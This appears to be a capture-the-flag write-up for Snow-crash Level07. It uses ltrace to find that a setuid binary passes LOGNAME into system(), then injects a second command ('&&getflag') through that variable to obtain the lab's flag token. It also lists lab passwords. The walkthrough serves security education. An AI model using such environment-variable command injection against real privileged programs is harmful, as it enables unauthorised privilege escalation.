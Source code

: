```yaml
---
title:  "Snow-crash Level07"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - [CyberSecurity,Github, Git]

toc: true
toc_sticky: true

date: 2024-2-15
last_modified_at: 2024-02-15
---
```


#### 1. The password of `Level07` is the token that got from `Level06`.

```bash
wiok45aaoguiboiki2tuin6ub
```

#### 2. So, try login to Level07 with the password we got from Level06 and try to put the command `ls`. We can see the file `Level07`. and try to execute.

```bash
level06@SnowCrash:~$ su level07
Password:
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
level07@SnowCrash:~$ ./level07
level07
```
#### 3. Try to put `file` command
```bash
level07@SnowCrash:~$ file level07
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped
```
It's a binary file. 

#### 4. So, let's use ltrace command to understand/to debug the behavior of this program

```bash
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7a4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                 = 2007
geteuid()                                 = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
getenv("LOGNAME")                         = "level07"
asprintf(0xbffff6f4, 0x8048688, 0xbfffff2c, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                    = 0
+++ exited (status 0) +++
```
We can see the getenv("LOGNAME") = "level07"

```
level07@SnowCrash:~$ echo $LOGNAME
level07
```
#### 5. Try to do the small tests as below.

```
level07@SnowCrash:~$ export LOGNAME="HELLO_WORLD";
level07@SnowCrash:~$ ./level07
HELLO_WORLD
```

```
level07@SnowCrash:~$ export
declare -x HOME="/home/user/level07"
declare -x LANG="en_US.UTF-8"
declare -x LC_CTYPE="UTF-8"
declare -x LC_TERMINAL="iTerm2"
declare -x LC_TERMINAL_VERSION="3.4.23"
declare -x LESSCLOSE="/usr/bin/lesspipe %s %s"
declare -x LESSOPEN="| /usr/bin/lesspipe %s"
declare -x LOGNAME="HELLO_WORLD"
```
We can see the line `declare -x LOGNAME="HELLO_WORLD"`

#### 6. So then, we try to put getflag in the LOGNAME. 

```bash
level07@SnowCrash:~$ export LOGNAME="&&getflag"
level07@SnowCrash:~$ ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

#### 7. We got the token for level 08. 
```
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```